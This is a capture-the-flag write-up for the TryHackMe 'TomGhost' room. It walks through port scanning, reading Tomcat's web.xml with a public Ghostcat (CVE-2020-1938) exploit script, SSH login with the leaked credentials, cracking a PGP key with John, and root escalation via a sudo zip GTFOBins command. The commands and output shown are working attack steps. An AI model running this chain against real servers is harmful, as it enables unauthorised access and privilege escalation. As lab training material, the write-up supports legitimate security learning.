 # TomGhost (THM)

- https://tryhackme.com/room/tomghost
- March 4, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
2. 53/tcpwrapped
3. 161/tcp
4. 911/tcp
5. 5405/tcp
6. 8009/tcp ajp13 Apache Jserv
7. 8080/tcp http Apache Tomcat 9.0.30

- This apache has known exploit
- CNVD-2020-10487(CVE-2020-1938)
- exploit link - https://github.com/00theway/Ghostcat-CNVD-2020-10487/blob/master/ajpShooter.py

```sh
$ python ajpShooter.py http://$IP 8009 /WEB-INF/web.xml read

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test


[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>

```

## User Access

- Get account credential
  `skyfuck:8730281lkjlkjdqlksalks`
- there is ssh port open and try to enter ssh

```sh
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

- get these two files which may also be credentials to local machine to crack
- tryhackme.asc is PGP Private Key
- to crack with john firt change asc file to john format

```sh
$ /opt/tools/john/run/gpg2john tryhackme.asc > forjohn.txt
$ john forjohn.txt
# tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
$ gpg --import tryhackme.asc
# enter passphrase: alexandru
$ gpg --decrypt credential.pgp
# gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
# gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
#       "tryhackme <stuxnet@tryhackme.com>"
# merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

- get merlin account

```sh
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

- merlin has sudo access to zip file without password

## Root Access

- from gtfobin for zip

```sh
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

- get root access

```sh
root@ubuntu:/# cat /home/merlin/user.txt
...
root@ubuntu:/# cat /root/root.txt
...
```

---
